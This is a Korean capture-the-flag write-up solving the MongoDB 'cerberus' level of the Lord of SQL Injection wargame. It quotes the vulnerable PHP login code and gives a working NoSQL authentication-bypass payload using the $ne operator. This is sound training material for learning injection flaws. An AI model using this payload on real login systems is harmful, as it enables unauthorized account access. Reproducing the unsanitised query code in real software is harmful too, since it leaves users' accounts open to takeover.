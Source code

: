 ```yaml
---
title: "[Lord of SQL Injection] LoS - cerberus 문제풀이"
date: 2019-08-05
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


드디어 `MSSQL`이 끝나고 이번엔 `MongoDB`로 넘어왔다.
문제 이름은 `cerberus`이다.  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------
query : {"id":null,"pw":null}
---------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = mongodb_connect();
  $query = array(
    "id" => $_GET['id'],
    "pw" => $_GET['pw']
  );
  echo "<hr>query : <strong>".json_encode($query)."</strong><hr><br>";
  $result = mongodb_fetch_array($db->prob_cerberus->find($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";
  if($result['id'] === "admin") solve("cerberus");
  highlight_file(__FILE__);
?>
```

코드는 간단하다.
`id`가 `admin`인 행을 추출하면 된다.
그래서 인터넷에 `mongodb sql injection`이라고 검색을 해 보았더니 자료가 엄청 많이 나왔다.
`MongoDB`는 `NoSQL`이라고 한단다.  

#### NoSQL  
> Not Only SQL로 불리기도 하며, SQL만을 사용하지 않은 DBMS  
> 비관계형 데이터베이스  
> 즉, 데이터의 관계를 정의하지 않고 사용하는 DB  

아래 블로그에서 NoSQL과 일반 SQL DB 사이의 차이점을 쉽게 설명 해 주었다.  

> [NOSQL Injection from MongoDB](https://tribal1012.tistory.com/138)

위의 블로그를 읽은 후, 문제의 소스코드를 보면 문제에서는 `find($query)`를 이용하여 `select * from prob_cerberus where id=$_GET['id'] and pw=$_GET['pw']` 형태의 쿼리를 실행했다는 것을 알 수 있었다.
그런데 이 때, Array 형태로 구성되어 있는 `$query` 안에 또 다시 관계를 나타내는 Array를 삽입 해 의도하지 않은 결과를 가져올 수 있다고 한다.
가장 자주 쓰이는 것이 `$ne`인 것 같은데, 이는 `!=`과 동일한 기능을 하는 문자이다.
따라서 해당 쿼리에서 `pw=$_GET['pw']` 부분을 `pw!=$_GET['pw']`로 만들어 `id`는 `admin`이지만, `pw`의 값이 내가 입력한 값이 아닌 데이터를 불러오도록 조작할 수 있다.
위의 블로그에서는 테스트 환경에서 소스코드를 짜서 구성했는데, 나는 그냥 배열 형태로 아래와 같이 넣어주었다.  

```plain
?id=admin&pw[$ne]=asd
```

그럼 완성되는 `$query`의 내용은 아래와 같을 것이다.  

```json
{"id" : "admin", "pw" : {"$ne":"asd"}}
```

즉, `SQL`의 `where 절`과 같이 바꾸어 보면 다음과 같다.  

```mysql
where id = "admin" and pw != "asd"
```

따라서 아래와 같이 문제를 풀 수 있게 된다.  

```php
----------------------------------------------------------
query : {"id":"admin","pw":{"$ne":"asd"}}
----------------------------------------------------------

Hello admin
CERBERUS Clear!

<?php
  include "./config.php";
  login_chk();
  $db = mongodb_connect();
  $query = array(
    "id" => $_GET['id'],
    "pw" => $_GET['pw']
  );
  echo "<hr>query : <strong>".json_encode($query)."</strong><hr><br>";
  $result = mongodb_fetch_array($db->prob_cerberus->find($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";
  if($result['id'] === "admin") solve("cerberus");
  highlight_file(__FILE__);
?>
```

---

```plain
CERBERUS Clear!!
```
